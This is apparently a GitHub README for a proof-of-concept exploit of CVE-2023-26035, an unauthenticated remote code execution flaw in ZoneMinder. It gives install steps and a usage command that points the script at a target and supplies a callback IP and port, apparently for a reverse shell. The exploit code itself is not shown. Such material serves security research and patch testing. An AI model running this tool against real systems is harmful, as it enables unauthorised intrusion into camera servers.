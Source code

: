 # Zoneminder Unauthenticated RCE (CVE-2023-26035) POC

This is a script written in Python that allows the exploitation of the **Zoneminder's** security flaw in the described in **CVE 2023-26035**. The system is vulnerable in versions preceding **1.36.33** and **1.37.33.**

## Usage

Clone the repository to your machine and install the dependencies using **pip** (it is recommended to use **virtualenv** to create an environment to separate these installations from global installations)

```bash
git clone https://github.com/m3m0o/zoneminder-snapshots-rce-poc
pip install -r requirements.txt
```

The script needs the **target URL** with the **Zoneminder's** root path (like **http://example.com/zm, http://example.com** or **http://example.com/zoneminder)**, the **IP** or **domain** for the target machine to connect and the **port** for the target machine to connect. Here's an example:

```bash
python3 main.py -u http://zoneminder.target:8000 -i 10.10.14.56 -p 443
```

![script-demo](https://iili.io/Ju3w7t9.gif)

## References

[Unauthenticated RCE in snapshots](https://github.com/ZoneMinder/zoneminder/security/advisories/GHSA-72rg-h4vf-29gr)

[Rapid7 Vulnerability & Exploit Database ZoneMinder Snapshots Command Injection](https://www.rapid7.com/db/modules/exploit/unix/webapp/zoneminder_snapshots/)
